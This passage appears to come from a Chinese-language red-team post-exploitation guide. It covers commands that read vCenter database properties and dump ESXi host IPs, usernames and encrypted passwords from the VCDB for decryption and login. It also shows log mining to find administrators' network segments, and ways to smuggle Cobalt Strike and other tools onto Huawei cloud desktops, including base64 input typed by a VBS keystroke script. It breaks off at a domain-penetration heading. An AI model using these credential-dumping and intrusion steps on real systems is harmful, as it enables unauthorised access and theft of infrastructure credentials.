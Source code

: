     
    
    cat /etc/vmware-vpx/vcdb.properties /etc/vmware/service-state/vpxd/vcdb.properties

导出连接数据库  

    
    
    psql -h 127.0.0.1 -p 5432 -U vc -d VCDB -c "select ip_address,user_name,password from vpx_host;" > password.enc

将password.enc导出到本地，运行脚本解密  

![]()

解出来之后直接登录ex

![]()

![]()

###  **查看登录地址**

在内网信息收集的时候，尽可能的收集内网的网段信息，如果是一台服务器，必有运维人员上来维护，通过分析登录日志，可以发现运维人员的网段

####  **linux**

查看登录地址

    
    
    grep 'Accepted' /var/log/secure | awk '{print $11}' | sort | uniq -c | sort -nr

![]()

####  **windows**

    
    
    SharpEventLog.exe -4624

![]()

###  **云桌面**

在hw的过程中，发现有些行业喜欢用华为云桌面，由于我们需要在华为云主机上线cs，但是又无法直接复制文件、复制文本等

方法1：

前提条件：云桌面主机和宿主机是互通的

互通情况下可以使用华为云桌面里的主机反向连接宿主机，这样就可以直接通复制文件到华为云桌面上了

方法2：

前提条件：有机会操作目标主机

云桌面主机和宿主机是不互通的，可使用vbs脚本模拟键盘输入，将base64编码后的工具输入到云桌面，在云桌面进行解码

###  **域渗透**
